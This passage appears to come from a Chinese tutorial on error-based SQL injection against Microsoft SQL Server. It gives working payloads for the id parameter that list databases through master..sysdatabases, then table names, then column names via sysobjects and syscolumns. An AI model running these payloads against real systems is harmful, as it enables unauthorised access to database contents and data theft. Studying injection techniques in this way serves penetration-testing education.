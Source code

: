 

**1.2获取所有数据库（由于我们使用的是and 1= ()进行的报错，所以一次只能获取一个值，这时可以使用top函数）**

```
payload：id=1  and 1= (select top 1 name from master..sysdatabases) 
```

如果想获取第二行数据，

```
payload：id=1  and 1= (select top 1 name from master..sysdatabases where name not in( select top 1 name from master..sysdatabases ))
```

 <img src="assets/68819e60666b45b5a0def4b6652e76ef.png" alt="68819e60666b45b5a0def4b6652e76ef" style="zoom: 50%;" />


**1.3获取当前数据库的表名**

```
payload:id=1 and 1= (select top 1 name from jiaofan..sysobjects where xtype = 0x75) 
```

<img src="assets/88ca21ab9c724913af12ba54c1846ecd.png" alt="88ca21ab9c724913af12ba54c1846ecd" style="zoom:50%;" />

**1.4获取表中的字段名**

由于涉及到两张表，所以可以将两张表联合起来

```
payload：id=1 and 1= (select top 1 c.name from jiaofan..syscolumns c ,jiaofan..sysobjects o where c.id = o.id and o.name =0x73006C005F007500730065007200 ) 
```

<img src="assets/63ff49e031ec4807ad0c911c6d1f420a.png" alt="63ff49e031ec4807ad0c911c6d1f420a" style="zoom:50%;" />
